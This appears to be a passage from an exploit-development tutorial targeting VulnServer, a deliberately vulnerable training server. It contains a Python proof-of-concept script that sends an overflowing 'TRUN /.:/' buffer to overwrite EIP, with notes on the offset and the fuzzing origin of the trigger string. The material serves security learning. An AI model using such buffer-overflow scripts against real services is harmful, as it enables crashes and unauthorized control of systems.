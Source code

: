 ```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @c2thewinkler (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

buffer = "TRUN /.:/"
buffer += "A"*2003
buffer += "B"*4
buffer += "C"*(3500-2003-4)

try:
    print "[+] Connecting to target"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.recv(1024)
    print "[+] Sent payload with length: %d" % len(buffer)
    s.send(buffer)
    s.close()

except Exception, msg:
    print "[-] Something went wrong :("
    print msg
```

As a quick side-note, a lot of people don't know where the "/.:/" string comes from and just blindly put it in their VulnServer exploits. Not all of the exploitable functions within VulnServer will trigger on this string. This string came from fuzzing output from [SPIKE](http://www.immunitysec.com/spike.html) written by [Dave Aitel](https://en.wikipedia.org/wiki/Dave_Aitel). So if you've ever wondered what the string was, or where it came from, now you know. 

In short, this exploit connects to VulnServer on port 9999, sends the TRUN command, triggers a vulnerable function within VulnServer via the "/.:/" string, and overflows that function with a large input of A's, B's, and C's. The offset to the instruction pointer was calculated at offset 2003 bytes. This exploit should result in the hex characters "42424242" showing in EIP to demonstrate we have some level of control over the program.
